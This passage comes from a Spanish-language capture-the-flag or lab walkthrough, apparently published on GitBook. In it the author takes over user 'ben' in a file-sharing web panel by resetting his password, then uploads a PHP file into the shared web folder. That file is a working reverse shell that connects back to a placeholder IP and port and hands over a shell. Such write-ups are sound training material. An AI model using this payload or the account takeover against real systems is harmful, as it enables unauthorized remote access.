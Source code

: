 Veremos que ha funcionado, pero esto solo nos sirve de informacion unicamente, no veremos que haya un usuario creado como tal, por lo que seguramente tendremos que acceder mediante una `reverse shell`.

Si nos vamos al usuario `ben` veremos que esta compartiendo la carpeta `webProd`...

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-09-22 143712.png" alt=""><figcaption></figcaption></figure>

Si entramos dentro veremos lo siguiente:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-09-22 143756.png" alt=""><figcaption></figcaption></figure>

Vemos que esta compartiendo la carpeta donde se aloja la pagina web, vamos a crear la carpeta `test` dentro de este directorio, por lo que vamos a cambiarle las credenciales a dicho usuario, para conectarnos con el.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-09-22 143847.png" alt=""><figcaption></figcaption></figure>

En ese campo de `password` pondremos la que queramos, le damos a `Save` en la parte de abajo derecha y nos deslogueamos, cuando estemos en el login, pondremos las credenciales establecidas:

```
User: ben
Pass: <LO QUE HAYAMOS PUESTO>
```

Una vez dentro, veremos lo siguiente:

Dentro de este directorio, vemos la carpeta llamada `test` donde depositaremos nuestro archivo de `webshell.php`, dentro de `test` haremos lo siguiente.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-09-22 144159.png" alt=""><figcaption></figcaption></figure>

Vamos a darle a `Add files`:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-09-22 144227.png" alt=""><figcaption></figcaption></figure>

Echo esto seleccionaremos nuestro `webshell.php`:

> webshell.php

```php
<?php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

Veremos esto:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-09-22 143414.png" alt=""><figcaption></figcaption></figure>

Dentro de esta opcion ya seleccionada de archivo, le daremos a `Upload` que esta a la derecha, con esto veremos que habremos subido bien dicho archivo y ahora en la carpeta veremos esto:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-09-22 143427.png" alt=""><figcaption></figcaption></figure>

Ahora antes de acceder al archivo, vamos a ponernos a la escucha:
